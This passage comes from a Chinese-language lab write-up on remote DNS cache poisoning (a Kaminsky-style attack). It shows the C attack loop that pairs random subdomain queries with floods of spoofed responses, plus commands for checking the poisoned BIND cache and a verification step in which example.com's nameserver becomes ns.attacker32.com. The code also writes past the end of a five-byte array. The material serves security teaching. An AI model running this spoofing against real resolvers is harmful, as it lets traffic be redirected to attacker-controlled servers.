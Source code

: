 `main`中`while`循环，调用之前写好的两个函数：

```c
  while (1)
  {
    // Generate a random name with length 5
    char name[5];
    for (int k = 0; k < 5; k++)
      name[k] = a[rand() % 26];

    name[5] = '\0';
	//##################################################################
	// Step 1. 
	// Send a DNS request to the targeted local DNS server.
	// This will trigger the DNS server to send out DNS queries 

    send_dns_request(ip_req, n_req, name);
    printf("attempt #%ld. request is [%s.example.com]\n", i++, name);

	// Step 2. 
	// Send many spoofed responses to the targeted local DNS server,
	// each one with a different transaction ID. 

    send_dns_response(ip_resp, n_resp, name);

    //##################################################################
  }
```

运行：（这里一开始运行attack时没有`sudo`，导致无法发包）

![image-20220602222252906](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012337773.png)

登入local dns通过`rndc dumpdb -cache && grep attacker /var/cache/bind/dump.db`命令查看伪造的response是否被成功cache：

![image-20220602222356433](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012337536.png)



## Task 5: Result Verifification

` dig www.example.com`，向local DNS发起查询请求，由于攻击成功，在local DNS服务器的DNS cache中，example.com的NS记录将变成ns.attacker32.com。当local DNS接收到针对example.com域内任何主机名的DNS查询时，它将**向ns.attacker32.com发送一个查询**，而不是发送到该域的合法nameserver。

![image-20220602224744048](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012338149.png)

这时通过wireshark抓包，一共抓到4个包：

![image-20220602225941489](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012338560.png)

- 第1个包：user向local dns发送DNS request包，询问www.example的ip地址。
